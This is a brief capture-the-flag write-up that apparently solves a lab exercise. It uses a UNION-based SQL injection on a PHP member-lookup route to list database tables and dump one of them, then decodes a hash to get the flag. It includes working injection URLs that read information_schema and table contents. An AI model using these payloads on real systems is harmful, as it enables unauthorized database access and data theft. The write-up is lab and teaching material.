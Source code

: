 For this flag, i used an sql injection from the member get by id route.

Here is the route, normaly used :/index.php?page=member&id=2Submit=Submit

With a union sql injection attack I was able to export 5 tables content.

I was able to extract the table names with this request :
http://{{host}}/index.php?page=member&id=2 UNION SELECT TABLE_SCHEMA, TABLE_NAME FROM information_schema.tables&Submit=Submit

Here is a sample of the union attack, for the db vote_dbs :
http://{{host}}/index.php?page=member&id=2 UNION SELECT nb_vote, subject FROM Member_survey.vote_dbs&Submit=Submit

For this flag, this is the list_images table that will contain the flag. Here is the exported table :

| id | url | title | comment |
| --- | --- | --- | --- |
| 1 | https://fr.wikipedia.org/wiki/Programme_ | Nsa | An image about the NSA ! |
| 2 | https://fr.wikipedia.org/wiki/Fichier:42 | 42 ! | There is a number.. |
| 3 | https://fr.wikipedia.org/wiki/Logo_de_Go | Google | Google it ! |
| 4 | https://en.wikipedia.org/wiki/Earth#/med | Earth | Earth! |
| 5 | borntosec.ddns.net/images.png | Hack me ? | If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46 |

`1928e8083cf461a51303633093573c46` decryption is `albatroz` .

`albatroz` sha256 hash is `f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188` 

So we got the flag !
